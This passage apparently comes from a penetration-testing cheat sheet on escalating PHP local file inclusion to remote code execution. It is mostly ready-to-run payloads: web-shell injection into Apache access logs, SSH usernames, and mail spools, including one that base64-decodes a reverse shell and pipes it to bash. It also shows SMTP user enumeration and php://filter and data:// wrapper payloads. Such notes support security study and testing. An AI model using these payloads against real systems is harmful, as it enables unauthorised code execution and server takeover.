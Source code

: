 ```bash
# Alternative
GET <?php system($_GET['cmd']);?> HTTP/1.1
# Press enter. We might get a response like this
HTTP/1.1 400 Bad Request
...
#Now visit the apache log to achieve RCE
└─$ curl -s 'http://$IP:$PORT/index.php?file=../../../../var/log/apache2/access.log&cmd=id' | html2text | tail
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
http://$IP/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

############### SSH
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.129
ssh '<?php system("echo $BASE64_REVSHELL | base64 -d | bash"); ?>'

############## MAIL
# First we need to know a valid SMTP user or enumerate it to be able to send him/her an email
smtp-user-enum -m VRFY -u $USER $TARGET_IP $SMTP_PORT # instead of a user we could bf a username list
# Send an email using swaks for example
swaks --to $TARGET_USER --from myuser --header "Subject: Testing!" --body "ignore this message" --server $TARGET_IP
# Now if we use LFI to locate /var/mail/$TARGET_USER file, we should see the previous email
# If so, now do the same but including PHP code on the body:
swaks --to $TARGET_USER --from myuser --header "Subject: Testing!" --body '<?php system($_REQUEST["cmd"]); ?>' --server $TARGET_IP
# Now if we include LFI again with /var/mail/$TARGET_USER&cmd=id we should achieve RCE
```
{% endcode %}

### PHP wrappers

| [https://highon.coffee/blog/lfi-cheat-sheet/](https://highon.coffee/blog/lfi-cheat-sheet/)                                                                 |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html](https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html) |

### Filter Chain Generator

```
#FILTER CHAIN GENERATOR (CHECK IT, GREAT OPTION)
https://github.com/synacktiv/php_filter_chain_generator
python3 php_filter_chain_generator.py --chain "Testing..."
python3 php_filter_chain_generator.py --chain "<?php system($_GET['cmd') ?>"
```

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.php.net/manual/en/wrappers.php

php://filter # useful to read PHP code instead of interpreting the file.
php://filter/resource=admin.php
/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# data:// wrapper to achieve code exection (embed data elements as plaintext or base64-encoded data in the running web application’s code, good when we cannot poison a local file
http://$IP/main.php?file=data:text/plain,hello world # to check
http://$IP/main.php?file=data:text/plain,<?php echo shell_exec("dir") ?> # to exploit
data://text/plain,<?php%20echo%20system('ls');?>"
data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E
"http://$IP/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
data://text/plain;base64,$BASE64&cmd=ls
# data:// will not work by default, it needs allow_url_include
# php://input
```